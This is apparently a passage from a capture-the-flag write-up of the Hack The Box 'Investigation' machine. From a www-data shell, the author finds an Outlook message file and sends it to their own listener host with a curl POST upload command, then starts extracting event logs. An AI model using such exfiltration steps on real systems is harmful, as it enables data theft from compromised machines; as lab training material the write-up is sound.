 ```bash
*/5 * * * * date >> /usr/local/investigation/analysed_log && echo "Clearing folders" >> /usr/local/investigation/analysed_log && rm -r /var/www/uploads/* && rm /var/www/html/analysed_images/*
```

```bash
(remote) www-data@investigation:/$ cd /usr/local/investigation
(remote) www-data@investigation:/usr/local/investigation$ ls -la
total 1288
drwxr-xr-x  2 root     root        4096 Sep 30  2022  .
drwxr-xr-x 11 root     root        4096 Aug 27  2022  ..
-rw-rw-r--  1 smorton  smorton  1308160 Oct  1  2022 'Windows Event Logs for Analysis.msg'
-rw-rw-r--  1 www-data www-data       0 Oct  1  2022  analysed_log
```

Get the Log file

```bash
┌──(root㉿kali)-[~/investigation/www]
└─# python3 -m uploadserver 80
File upload available at /upload
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
(remote) www-data@investigation:/usr/local/investigation$ curl 10.10.14.45/upload -X POST -F 'files=@"Windows Event Logs for Analysis.msg"'
```

```bash
10.10.11.197 - - [22/Apr/2023 06:29:18] [Uploaded] "Windows Event Logs for Analysis.msg" --> /root/investigation/www/Windows Event Logs for Analysis.msg
10.10.11.197 - - [22/Apr/2023 06:29:18] "POST /upload HTTP/1.1" 204 -
```


## Analyze Windows Event Log

```bash
┌──(root㉿kali)-[~/investigation/www]
└─# file 'Windows Event Logs for Analysis.msg'
Windows Event Logs for Analysis.msg: CDFV2 Microsoft Outlook Message

┌──(root㉿kali)-[~/investigation/www]
└─# pipx install extract-msg
  installed package extract-msg 0.40.0, installed using Python 3.11.2
  These apps are now globally available
    - extract_msg
done! ✨ 🌟 ✨

┌──(root㉿kali)-[~/investigation/www]
└─# extract_msg 'Windows Event Logs for Analysis.msg'

┌──(root㉿kali)-[~/investigation/www/2022-01-15_1930 Windows Event Logs for Analysis]
└─# ls -la
total 1260
drwxr-xr-x 2 root root    4096 Apr 22 07:46 .
drwxr-xr-x 3 root root    4096 Apr 22 07:46 ..
-rw-r--r-- 1 root root 1276591 Apr 22 07:46 evtx-logs.zip
-rw-r--r-- 1 root root     441 Apr 22 07:46 message.txt

┌──(root㉿kali)-[~/investigation/www/2022-01-15_1930 Windows Event Logs for Analysis]
└─# cat message.txt
From: Thomas Jones <thomas.jones@eforenzics.htb>
Sent: Sat, 15 Jan 2022 19:30:29 -0500
To: Steve Morton <steve.morton@eforenzics.htb>
Subject: Windows Event Logs for Analysis
-----------------
```